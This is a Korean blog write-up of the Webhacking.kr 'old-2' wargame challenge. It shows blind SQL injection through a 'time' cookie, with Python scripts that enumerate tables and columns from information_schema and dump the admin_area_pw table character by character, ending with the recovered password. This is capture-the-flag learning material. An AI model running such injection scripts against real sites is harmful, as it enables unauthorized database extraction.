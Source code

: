 ```yaml
---
layout: post
title: "[Webhacking.kr] old-2"
date: 2025-10-20 01:29:13 +0900
categories: velog
---
```


<p>주말동안 <a href="https://webhacking.kr/challenge/web-02/%EB%A5%BC">https://webhacking.kr/challenge/web-02/를</a> 푸는 것이 과제였다.
사실 지난 주 목요일~금요일부터 찔끔찔끔 해본 것부터 하면 거의 4일? 동안 이 문제만 푼 것 같다... 풀고 풀이 작성은 미뤄뒀다가 이제서야 작성한다. 
주석으로 적혀 있는 시간 값을 좀 주의깊게 살펴봤으면 시간을 절반은 단축할 수 있었을 텐데;; 워게임 경력 부족(?) 이슈...</p>
<p><img alt="" src="/assets/images/hosooinmymind/images/hosooinmymind/post/1b9904dd-10af-4d3e-bb7d-b66d6f79f9e0/image.png"/>
이 코드의 힌트는 총 두 가지다. 첫 번째는 주석 처리되어 있는 시간, 두 번째는 admin.php에 관련된 것.</p>
<p><img alt="" src="/assets/images/hosooinmymind/images/hosooinmymind/post/61bf8475-9820-42e3-808c-73131ef40887/image.png"/>EditThisCookie를 이용해서 쿠키값을 확인해본 결과 time이라는 쿠키의 값이 위처럼 되어 있다.</p>
<p><img alt="" src="/assets/images/hosooinmymind/images/hosooinmymind/post/9e36f87f-867e-4cda-8e10-c1efff4a8252/image.png"/> <a href="https://www.epochconverter.com/%EC%97%90%EC%84%9C">https://www.epochconverter.com/에서</a> 이 timestamp를 human time으로 변경하자 위와 같은 결과를 볼 수 있었다. 이 쿠키가 서버에서 어떻게 사용될까? SELECT ~ FROM ~ WHERE timestamp='~~' 이런 식으로 사용될 확률이 높지 않을까? 그렇다면 쿠키에 SQL Injection을 시도해볼 수 있을 것이다. </p>
<p><img alt="" src="/assets/images/hosooinmymind/images/hosooinmymind/post/abe49c13-74e6-4a03-902b-be2c23397670/image.png"/>쿠키에 false값을 injection</p>
<p><img alt="" src="/assets/images/hosooinmymind/images/hosooinmymind/post/7e73a64a-e6ae-4f7c-ba26-9941945974cf/image.png"/>쿠키에 true값을 injection</p>
<p>두 결과가 다른 것으로 보아 Blind SQL Injection을 시도할 수 있다.
일단 테이블의 개수부터 찾아보자. (사실 코드 작성 부분부터는 ai의 도움을 살짝 받았따...^^)</p>
<pre><code>import requests

url = 'https://webhacking.kr/challenge/web-02/'

cookie = {
    'time': '(SELECT COUNT(table_name) FROM information_schema.tables WHERE table_schema = database())'
}

r = requests.get(url, cookies=cookie)
print(r.text)</code></pre><p>위 코드를 실행하자 이런 결과가 나왔다.
** 참고 </p>
<ul>
<li>information_schema.tables는 mysql의 시스템 테이블으로 모든 데이터베이스의 테이블 정보가 들어 있다.</li>
<li>database()함수는 현재 연결된 데이터베이스 이름을 반환한다.</li>
<li>table_schema=database()는 현재 데이터베이스에 속한 테이블들만 필터링한다.
즉 위 sql 쿼리는 현재 데이터베이스에 있는 테이블의 개수를 세는 쿼리이다. 
<img alt="" src="/assets/images/hosooinmymind/images/hosooinmymind/post/f854aaac-d5ea-4f0c-8788-615c33e444c4/image.png"/> 2070-01-01 09:00:02 부분에서 테이블이 2개임을 추측할 수 있다. 서브쿼리가 숫자 2를 반환하면 서버가 이를 타임스탬프로 처리해 위와 같이 표현되었다고 볼 수 있다.</li>
</ul>
<p>이제 테이블의 이름을 찾을 차례이다.</p>
<pre><code>import requests
import re

url = 'https://webhacking.kr/challenge/web-02/'

#--- 첫 번째 테이블명 찾기 ---#
print("\n=== 첫 번째 테이블명 찾기 ===")
table_name = ""

for i in range(1, 15):
    cookie = {
        'time': f'(SELECT ascii(substr(table_name,{i},1)) FROM information_schema.tables WHERE table_schema=database() limit 0,1)'
    }

    r = requests.get(url, cookies=cookie)

    # 시간 패턴 추출: 09:XX:XX 형태
    time_match = re.search(r'09:(\d{2}):(\d{2})', r.text)

    if time_match:
        minutes = int(time_match.group(1))
        seconds = int(time_match.group(2))

        # 분:초를 ASCII 값으로 변환 (01:37 → 1*60+37 = 97)
        ascii_val = minutes * 60 + seconds

        if ascii_val == 0:
            break

        char = chr(ascii_val)
        table_name += char
        print(f'{i}번째 글자: {time_match.group(0)} → ASCII {ascii_val} → "{char}"')

    else:
        print("시간 패턴을 찾을 수 없음")
        break

print(f'\n첫 번째 테이블명: {table_name}')</code></pre><p><img alt="" src="/assets/images/hosooinmymind/images/hosooinmymind/post/ffe26887-8d4d-469d-9f38-2bd07145e509/image.png"/>첫 번째 테이블명은 admin_area_pw임을 알 수 있다.
<img alt="" src="/assets/images/hosooinmymind/images/hosooinmymind/post/e2d61d72-36fc-4b7e-8baf-afbed5cbe86a/image.png"/> limit 1,1로 바꿔서 바로 두 번째 테이블명을 알아냈다. 두 번째 테이블명은 log. 딱 봐도 admin_area_pw에 flag가 있을 것 같이 생겼다. </p>
<p>admin_area_pw의 컬럼 개수, 컬럼명, 데이터 개수, 데이터 내용을 다 추출하는 코드.</p>
<pre><code>import requests
import re

url = 'https://webhacking.kr/challenge/web-02/'

def extract_ascii_from_time(text):
    time_match = re.search(r'09:(\d{2}):(\d{2})', text)
    if time_match:
        minutes = int(time_match.group(1))
        seconds = int(time_match.group(2))
        return minutes * 60 + seconds
    return 0

# admin_area_pw 테이블 분석
table_name = "admin_area_pw"

#--- 컬럼 개수 찾기 ---#
print("=== 컬럼 개수 찾기 ===")
cookie = {'time': f"(SELECT COUNT(column_name) FROM information_schema.columns WHERE table_schema=database() AND table_name='{table_name}')"}
r = requests.get(url, cookies=cookie)
column_count = extract_ascii_from_time(r.text)
print(f'{table_name} 테이블의 컬럼 개수: {column_count}개')

#--- 각 컬럼명 찾기 ---#
columns = []
for col_num in range(column_count):
    print(f"\n=== {col_num+1}번째 컬럼명 찾기 ===")
    column_name = ""

    for i in range(1, 20):
        cookie = {'time': f"(SELECT ascii(substr(column_name,{i},1)) FROM information_schema.columns WHERE table_schema=database() AND table_name='{table_name}' LIMIT {col_num},1)"}
        r = requests.get(url, cookies=cookie)

        ascii_val = extract_ascii_from_time(r.text)
        if ascii_val == 0:
            break

        char = chr(ascii_val)
        column_name += char
        print(f'{i}번째 글자: ASCII {ascii_val} → "{char}"')

    columns.append(column_name)
    print(f'{col_num+1}번째 컬럼명: {column_name}')

#--- 테이블 데이터 개수 찾기 ---#
print(f"\n=== {table_name} 테이블의 데이터 개수 ===")
cookie = {'time': f"(SELECT COUNT(*) FROM {table_name})"}
r = requests.get(url, cookies=cookie)
data_count = extract_ascii_from_time(r.text)
print(f'데이터 개수: {data_count}개')

#--- 각 데이터 내용 추출 ---#
for row_num in range(data_count):
    print(f"\n=== {row_num+1}번째 데이터 ===")

    for col_idx, col_name in enumerate(columns):
        print(f"\n--- {col_name} 컬럼 값 ---")
        data_value = ""

        for i in range(1, 50):  # 최대 50글자
            cookie = {'time': f"(SELECT ascii(substr({col_name},{i},1)) FROM {table_name} LIMIT {row_num},1)"}
            r = requests.get(url, cookies=cookie)

            ascii_val = extract_ascii_from_time(r.text)
            if ascii_val == 0:
                break

            char = chr(ascii_val)
            data_value += char
            print(f'{i}번째 글자: ASCII {ascii_val} → "{char}"')

        print(f'{col_name}: {data_value}')</code></pre><p><img alt="" src="/assets/images/hosooinmymind/images/hosooinmymind/post/ff326857-52f0-4546-a5ae-00693510997d/image.png"/>
<img alt="" src="/assets/images/hosooinmymind/images/hosooinmymind/post/5f722a36-b91a-45de-8cef-571f7298d597/image.png"/>
pw는 kudos_to_beistlab이다.</p>
<p><img alt="" src="/assets/images/hosooinmymind/images/hosooinmymind/post/01431dde-1f51-46d9-a10f-a85971e126b5/image.png"/>
이제 admin.php로 이동해서 이 pw를 입력했더니 풀렸다. </p>
<p><img alt="" src="/assets/images/hosooinmymind/images/hosooinmymind/post/8a72e6c9-e1cf-4d61-88c1-7ffd66edc38a/image.png"/></p>
<h3 id="후기">후기</h3>
<p>일단 SQL을 너무 오랜만에 써서 SQL문 작성하기가 은근 빡셌고... 이런 식으로 파이썬 코드를 작성해서 정보를 긁어올 수 있을 거라는 생각을 못했다. 당연히 쿠키값 하나씩 바꿔야 할 줄 알았는데 세상 편해졌다(?) 정규표현식은 더 공부해야할듯.</p>
<h3 id="reference">Reference</h3>
<p><a href="https://www.skshieldus.com/download/files/download.do?o_fname=EQST%20insight_Special%20Report_202208.pdf&amp;r_fname=20220818113242961.pdf">https://www.skshieldus.com/download/files/download.do?o_fname=EQST%20insight_Special%20Report_202208.pdf&amp;r_fname=20220818113242961.pdf</a></p>
